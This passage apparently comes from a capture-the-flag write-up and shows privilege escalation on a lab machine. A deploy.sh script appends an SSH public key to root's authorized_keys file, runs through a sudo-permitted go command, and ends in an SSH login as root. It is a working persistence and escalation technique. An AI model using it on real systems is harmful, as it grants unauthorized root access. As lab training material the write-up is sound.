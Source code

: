 At this point we make a ```delpoy.sh``` script that will give us root access. The easiest way to do this is to add a SSH public key to root's authorized_keys file. The script also touches a file so we can see that it did run and work.

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDO0WvGYJpNPqs452F1AuWbAYxh3SZv51UN7VE0XDRyH3L0PmhV9dJ7TcHhKTPr4f/3Hi/LRcBgUhcGgoE2L3ZkoxUkAKkbF1F1Dp2GYM/LGP1vGNEFQif/d99JHFfzbcwPaTzAD+RKzvpJ+Qh5EITzx7SGbMXUnBKUM+CGiGJei6f0HYdn4emjGSnfRaA6CvZr8597I06xleS+QnKO4e29CPxKN07tgLmOH5Ym5kYFRBlMqSo8o/PHWiyoy5ib3oQrXul8L0l3tciJIymG6swUEtaDEMu6TNa3YFw7Lq3T4z6fF2IXDWl1adIvh3xCly8aIfpYY5YIAMULO2MxXsHb tc@ubuntu" >> /root/.ssh/authorized_keys
touch done
```

After uploading both the files to the server we can run the index.go command. All we have to do is make sure we do it in the folder with our files.

```bash
sudo /usr/bin/go run /opt/wasm-functions/index.go
# Make sure that we are in a folder with our main.wasm and deploy.sh
```

At this point we can login as root with SSH and the private key.

```bash
ssh -i key root@10.10.10.227
```
